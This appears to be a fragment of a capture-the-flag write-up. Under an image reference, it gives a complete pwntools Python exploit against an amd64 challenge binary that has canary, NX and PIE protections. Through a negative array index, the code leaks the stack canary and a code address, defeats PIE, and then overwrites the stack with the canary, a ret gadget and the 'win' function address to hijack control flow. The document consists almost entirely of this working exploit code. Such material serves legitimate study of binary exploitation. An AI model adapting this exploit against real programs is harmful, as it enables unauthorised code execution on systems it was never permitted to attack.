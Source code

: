 ## Overall exploit code

```python
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def get_negative_index(byte_offset):
    target_number = ((1 << 63) | (byte_offset // 8))
    negative_index = (u64(p64(target_number), sign="signed"))
    return negative_index


def read_local_value(rbp_offset):
    """rbp_offset is positive, so if looking for [rbp-8] give 8 as the arg"""
    byte_offset = 0x90 - rbp_offset
    negative_index = get_negative_index(byte_offset)

    io.recvuntil(b'opt >> ')
    io.sendline(b'1')

    io.recvuntil(b'idx >> ')
    io.sendline(f'{negative_index}'.encode())

    io.recvuntil(b'<< ')
    local_value = int(io.recvline(keepends=False).decode('utf-8'))

    return local_value


def write_bytes(uint_value):
    io.recvuntil(b'opt >> ')
    io.sendline(b'2')

    io.recvuntil(b'x >> ')
    io.sendline(f'{uint_value}'.encode())


io = start()

rop = ROP(exe)
ret = rop.ret.address

canary_value = read_local_value(8)
start_addr = read_local_value(0x18)

win_addr = (start_addr & 0xfffffffffffff000) | (exe.symbols['win'] & 0xfff)
ret_addr = (start_addr & 0xfffffffffffff000) | (ret & 0xfff)

for _ in range((0x98 // 8)):
    write_bytes(canary_value)

write_bytes(ret_addr)
write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```
